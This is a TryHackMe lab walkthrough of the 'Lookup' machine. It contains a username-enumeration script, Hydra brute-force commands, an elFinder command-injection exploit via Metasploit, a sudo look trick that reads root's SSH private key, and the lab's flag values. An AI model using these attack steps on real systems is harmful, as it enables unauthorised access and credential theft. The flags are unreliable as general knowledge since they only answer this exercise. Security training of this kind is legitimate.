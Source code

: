 

# Lookup — TryHackMe Walkthrough

> **Target:** `lookup.thm` / `files.lookup.thm`
> **OS:** Ubuntu 20.04 (elFinder web app)
> **Goal:** user & root flags

---

## Table of contents

* [Overview](#overview)
* [Recon](#recon)
* [Username enumeration](#username-enumeration)
* [Password brute-force (jose)](#password-brute-force-jose)
* [elFinder & initial access](#elfinder--initial-access)
* [Privilege escalation](#privilege-escalation)
* [Flags](#flags)
* [Lessons learned](#lessons-learned)
* [Appendix — scripts & commands](#appendix---scripts--commands)

---

## Overview

This machine hosts a web application that redirects to `lookup.thm`. The app contains a login form and a file manager (`elFinder`). By enumerating usernames and attacking one found account (`jose`), I gained access to elFinder, exploited a known elFinder vulnerability to get a shell as `www-data`, escalated to the `think` user, and then gained root by abusing a `sudo` permission (`/usr/bin/look`) to read root’s private SSH key.

---

## Recon

Start with an nmap scan to identify open ports and services:

```bash
nmap -sC -sV -oN nmap.txt 10.10.147.56
```

Notable results:

* `22/tcp` — OpenSSH
* `80/tcp` — Apache httpd (redirects to `lookup.thm`)

We can see the web server redirects to `lookup.thm`; add an entry to `/etc/hosts` and browse it:

```bash
echo "10.10.147.56 lookup.thm" | sudo tee -a /etc/hosts
# then open http://lookup.thm in your browser
```

`lookup.thm` presents a simple login page.

---

## Username enumeration

At first I tried common creds such as `admin:admin` and `admin:password` — they didn’t work. SQLi attempts also failed. After some manual testing, I noticed the application returned different messages for wrong username vs wrong password. That allowed username enumeration.

I created a small Python script to find valid usernames by looking for the exact failure string returned (`Wrong password. Please try again.`). Below is the **fixed** and slightly improved script (the original had a small typo):

```python
#!/usr/bin/env python3
import requests
import time

URL = "http://lookup.thm/login.php"
WORDLIST = "/usr/share/seclists/Usernames/Names/names.txt"
PAUSE = 0.5  # polite pause between requests

headers = {"User-Agent": "Mozilla/5.0 (EnumerationBot/1.0)"}

with open(WORDLIST, "r", encoding="utf-8", errors="ignore") as fh:
    for line in fh:
        username = line.strip()
        if not username:
            continue

        data = {"username": username, "password": "password"}  # fixed test password
        try:
            resp = requests.post(URL, data=data, headers=headers, timeout=10)
        except requests.RequestException as e:
            print(f"[!] Request failed for {username}: {e}")
            continue

        text = resp.text.lower()
        # adjust the substring if the site uses different wording
        if "wrong password" in text:
            print(f"[+] Username found: {username}")
        # else: likely wrong username — be quiet

        time.sleep(PAUSE)
```

> Note: The script uses a hard-coded wordlist path — change `WORDLIST` if you want to use a different list. Throttle requests (`PAUSE`) so you don’t cause account lockouts or trip IDS.

Running this script revealed an additional username: **jose**. (This process can take some time with a large wordlist — threading or a curated small list speeds this up.)

---

## Password brute-force (jose)

With the `jose` username discovered, I used Hydra to test common passwords. Important: verify the exact failure string first with `curl` so Hydra can reliably detect failed logins:

```bash
# Confirm the failure message
curl -i -s -X POST -d "username=jose&password=badpass" http://lookup.thm/login.php | sed -n '1,200p'
# Example response contained:
# Wrong password. Please try again.
```

Hydra command used (start with a small test list first):

```bash
# small test list
cat > small.txt <<'EOF'
123456
password
qwerty
letmein
password123
EOF

hydra -l jose -P small.txt lookup.thm \
  http-post-form "/login.php:username=^USER^&password=^PASS^:F=Wrong password. Please try again." \
  -t 2 -f -V
```

After escalation to a larger list (`rockyou.txt`) and careful throttling, Hydra found the valid credential:

```
jose:password123
```


## elFinder & initial access

Logging in with `jose:password123` redirected me to `files.lookup.thm` (add hosts entry: `10.10.147.56 files.lookup.thm`), which runs **elFinder** — a web-based file manager.


I inspected the UI and static assets and identified the elFinder version as **2.1.47** (the version string is often in `elfinder.full.js` or visible in the UI).

Knowing the version, I researched public advisories and Metasploit modules. Metasploit contains a module for the **exiftran command injection** affecting elFinder versions `< 2.1.48`, which matched our target.

> **Note:** Always check the exact version before assuming exploitability.

### Gaining a shell

I used the Metasploit elFinder exiftran module to exploit the vulnerable connector (module details and options shown with `info` and `show options` in `msfconsole`). That yielded a meterpreter session as `www-data`. The initial session was unstable (short-lived uploader process), so I uploaded a stable reverse shell webscript and also used `netcat` as a listener to get a more reliable shell. After upgrading the shell (`python3 -c "import pty; pty.spawn('/bin/bash')"`) I had an interactive `www-data` shell.


---

## Privilege escalation

From the web shell (`www-data`) I explored the webroot and home directories. In `/home/think` I found `user.txt` (user flag) but needed higher privileges.

I checked sudo rights:

```bash
sudo -l
```

Output showed:

```
User thinks may run the following commands on ip-10-10-68-218:
    (ALL) /usr/bin/look
```

`/usr/bin/look` is normally used to print lines in a file that begin with a given string. When run via `sudo`, it opens the target file as root — so you can read files that your user cannot.

I used `look` to dump root’s SSH private key and root flag:

```bash
# read root ssh private key
sudo /usr/bin/look '' /root/.ssh/id_rsa

# read root flag
sudo /usr/bin/look '' /root/root.txt
```

This returned both the private key and the `root.txt` contents. I saved the leaked key locally (on the attack VM), set `chmod 600`, and SSH’d into the box as root using that key:

```bash
ssh -i id_rsa root@lookup.thm
```

Once root, I viewed `/root/root.txt`:


---

## Flags

* `user.txt` — `38375fb4dd8baa2b2039ac03d92b820e`
* `root.txt` — `5a285a9f257e45c68bb6c9f9f57d18e8`

---

## Lessons learned

* **Error message differences** (username vs password errors) can enable username enumeration — always check the exact site behaviour.
* **Patch management matters** — elFinder versions before 2.1.48/2.1.59 had known vulnerabilities; keep web apps up to date.
* **Sudo misconfigurations** are low-hanging fruit. `sudo -l` should always be checked — it often yields direct privilege escalation paths.
* **When a post-exploit session is unstable**, migrate to a long-lived process or use an alternative stable shell mechanism (webshell, reverse shell with netcat, payload migration).
